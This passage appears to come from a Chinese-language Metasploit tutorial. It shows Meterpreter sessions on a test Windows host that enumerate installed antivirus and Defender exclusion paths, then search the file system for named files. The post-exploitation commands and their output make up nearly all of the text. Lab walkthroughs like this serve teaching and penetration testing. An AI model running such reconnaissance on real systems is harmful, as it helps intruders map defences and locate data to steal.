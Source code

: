 获取杀软信息：

```console
meterpreter > run post/windows/gather/enum_av_excluded

[*] Enumerating Excluded Paths for AV on DESKTOP-TEST
[+] Found Windows Defender
[*] No extension exclusions for Windows Defender
[*] No path exclusions for Windows Defender
[*] No process exclusions for Windows Defender
meterpreter > run post/windows/gather/enum_av

[*] Found AV product:
displayName=Windows Defender
instanceGuid={D68DDC3A-831F-4fae-9E44-DA132C1ACF46}
pathToSignedProductExe=windowsdefender://
pathToSignedReportingExe=%ProgramFiles%\Windows Defender\MsMpeng.exe
productState=397568
timestamp=Tue, 16 May 2023 06:11:19 GMT

meterpreter >
```

### 搜索文件

```console
meterpreter > search -f *test.txt
Found 2 results...
==================

Path                                         Size (bytes)  Modified (UTC)
----                                         ------------  --------------
c:\Users\test\Desktop\test.txt               13            2023-05-16 02:38:38 -0400
c:\test.txt                                  13            2023-05-16 02:38:06 -0400

meterpreter > search -d "c:\\Users\\test\\Desktop\\" -f *test.txt
Found 1 results...
==================

Path                                         Size (bytes)  Modified (UTC)
----                                         ------------  --------------
C:\Users\test\Desktop\test.txt               13            2023-05-16 02:38:38 -0400

meterpreter > search -d "c:\\Users\\test\\Desktop\\" -f test.txt
Found 2 results...
==================

Path                                                                                     Size (bytes)  Modified (UTC)
----                                                                                     ------------  --------------
C:\Users\test\Desktop\test.txt                                                           13            2023-05-16 02:38:38 -0400
C:\Users\test\Desktop\新建文本文档.txt                                                   24            2023-05-16 02:47:16 -0400

meterpreter >
```
